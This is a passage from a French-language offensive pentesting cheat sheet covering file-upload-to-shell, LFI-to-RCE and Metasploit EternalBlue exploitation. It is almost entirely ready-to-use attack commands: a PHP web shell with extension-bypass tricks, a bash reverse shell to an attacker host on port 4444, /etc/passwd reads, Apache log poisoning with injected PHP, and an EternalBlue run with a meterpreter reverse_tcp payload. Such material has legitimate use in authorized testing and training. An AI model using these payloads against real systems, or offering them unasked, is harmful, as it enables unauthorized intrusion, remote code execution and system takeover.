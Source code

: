 ### File Upload → Shell
```bash
# 1. Upload d'un shell PHP
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# 2. Bypass de filtres d'extension
# Techniques :
# - shell.php.jpg (double extension)
# - shell.phtml, shell.php5, shell.phar
# - shell.php avec Content-Type: image/jpeg

# 3. Utilisation du shell uploadé
curl "http://target.com/uploads/shell.php?cmd=id"

# 4. Upgrade vers reverse shell
curl "http://target.com/uploads/shell.php?cmd=bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'"
```

### Local File Inclusion (LFI) → RCE
```bash
# 1. Test LFI basique
curl "http://target.com/page.php?file=../../../etc/passwd"

# 2. Log poisoning pour RCE
# Empoisonner les logs Apache
curl -H "User-Agent: <?php system(\$_GET['cmd']); ?>" http://target.com/

# 3. Inclusion du log empoisonné
curl "http://target.com/page.php?file=../../../var/log/apache2/access.log&cmd=whoami"

# 4. PHP filter pour RCE (PHP >= 7.0)
curl "http://target.com/page.php?file=php://filter/convert.base64-encode/resource=index.php"
```

## 🖥️ Exploitation Réseau avec Metasploit

### SMB - EternalBlue (MS17-010)
```bash
msfconsole

# 1. Vérifier la vulnérabilité
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS target.com
run

# 2. Exploiter avec EternalBlue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target.com
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4444
run

# 3. Si succès, on obtient une session meterpreter
# meterpreter > shell
# meterpreter > sysinfo
# meterpreter > getuid
```
